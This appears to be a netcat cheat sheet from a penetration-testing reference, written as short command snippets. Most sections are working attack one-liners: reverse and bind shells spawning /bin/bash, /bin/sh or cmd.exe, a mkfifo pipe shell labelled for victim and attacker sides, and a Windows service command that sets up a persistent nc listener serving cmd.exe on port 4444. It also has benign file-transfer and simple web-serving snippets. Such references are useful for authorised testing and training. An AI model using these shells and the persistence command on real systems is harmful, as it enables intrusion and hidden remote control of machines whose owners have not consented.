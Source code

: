 # netcat

## <mark style="color:red;">Shell</mark>

### <mark style="color:orange;">reverse shell (for bind shell reverse the commands)</mark>

```
listener: nc -nvlp [local port]
client(linux): nc [remote port] -e /bin/bash
client(windows): nc [remote port] -e cmd.exe
```

### <mark style="color:orange;">reverse shell (BSD version)</mark>

```
rm -rf /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 |nc 0.0.0.0 5555 >/tmp/f
```

### <mark style="color:orange;">bind shell (BSD version)</mark>

```
victim side:
mkfifo foo
nc -lk 2600 0<foo | /bin/bash 1>foo

attacker side:
nc [server ip] 2600
```

## <mark style="color:red;">File Transfer</mark>

### <mark style="color:orange;">push files from client to listener (and vice versa)</mark>

```
listener: nc -nvlp [local port] > [out file]
clinet: nc [ip] [remote port] < [in file]
```

### <mark style="color:orange;">netcat HTTP server</mark>

```
nc -kl 8000 --sh-exec "echo -e 'HTTP/1.1 200 OK\r\n'; date"
```

### <mark style="color:orange;">serve a single web page</mark>

```
while true; do nc -l -p 80 -q 1 < error.html; done
```

## <mark style="color:red;">add netcat as a service in windows</mark>

```
sc create NcService binPath= "cmd.exe /c start c:\nc.exe -nLp 4444 -e cmd.exe" start= auto error= ignore

sc start NcService

taskkill /f /im nc.exe
```
